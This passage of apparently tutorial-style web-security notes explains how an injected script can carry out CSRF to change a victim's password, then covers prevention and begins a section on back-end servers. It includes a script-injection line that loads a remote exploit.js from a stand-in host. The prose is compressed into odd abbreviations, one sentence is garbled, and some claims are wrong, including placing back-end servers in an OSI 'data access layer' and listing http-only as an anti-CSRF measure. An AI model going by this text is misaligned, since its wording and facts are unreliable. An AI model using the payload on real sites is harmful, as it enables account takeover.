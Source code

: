 A common `CSRF` atk to gain higher priv access to a web app is to craft a `JS` payload that auto-changes the victim's passwd to the val set by the atkr. Once the victim views the payload on the vuln pg (e.g. a malicious cmt containing the `JS CSRF` payload), the `JS` code would auto-exec. It would use the vic's logged-in session to change their passwd. Once that is done, the atkr can log in to the vic's acct and ctrl it.

`CSRF` can also be leveraged to atk admins and gain access to their accts. Admins usually have access to sensitive fns, which can sometimes be used to atk and gain ctrl o/ the back-end server (depending on the fn'ality provided to admins w/i a given web app). Following the examples used so far, instead of using `JS` code that would return the session cookie, load a remote `.js` file as follows:
```html
"><script src=//www.example.com/exploit.js></script>
```
The `exploit.js` file would contain the malicious `JS` code that changes the user's passwd. Dev;ing the `exploit.js` in the cs req's knowledge of this web app's passwd changing procedure and `APIs`. The atkr would need to create `JS` code that would replicate the desired fnality and auto-carry it out (i.e. `JS` code that changes the passwd for this specific web app).
### Prevention
Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end b4 it reaches the back end, and esp if this code may be displayed directly on the client-side w/o comms w the back end. Two main ctrls must be applied when accepting user input:

| **Type**       | **Description**                                                                                             |
| -------------- | ----------------------------------------------------------------------------------------------------------- |
| `Sanitization` | Removing special chars and non-std chars from user input b4 displaying it or storing it.                    |
| `Validation`   | Ensuring that submitted user input matches the expected format (i.e. submitted email matched email format). |
Furthermore, it is also important to sanitize displayed output and clear any special/nonstd chars. In cs an atkr mngs to bypass front and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once user input and displayed output is sanitized and/or validated, atks like `HTML inj`, `XSS`, and `CSRF` should be easy to prevent. Another solution would be to implement a [web app fw (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall), which should help to prevent inj attempt automatically. However, it should be noted the `WAF` sol's can potentially be bypassed, so devs should following coding best practices and not merely rely on an appliance to detect/block atks.

As for `CSRF`, many modern browsers have built-in anti-CSRF measures, which auto-prevents exec'ing `JS` code. Furthermore, many modern web apps have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e. `anti-CSRF` token, or `http-only`/`X-XSS-Protection`). Certain other measures can be taken from a fnal level, like req the user to input their passwd b4 changing it. Many of these sec measures can be bypassed, and therefore these types of vulns can still pose a major threat to the users of a web app. This is why these precautions should only be relied upon as a secondary measure, and devs should always ensure that their code is not vuln to any of these atks.

This [Cross Site Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) from OWASP discusses the atk and prevention measures in greater detail.
# Back End Components
## Back End Servers
A back-end server is the hardware and OS on the back end that hosts all of the apps necessary to run the web app. It is the realy sys running all the proc's and carrying out all of the tasks that make up the entire web app. The back end server would fit in the [data access layer](https://en.wikipedia.org/wiki/Data_access_layer) of the OSI model.
### Software
The back end server contains the other 3 back end components:
- `Web Server`
- `Database`
- `Development Framework` 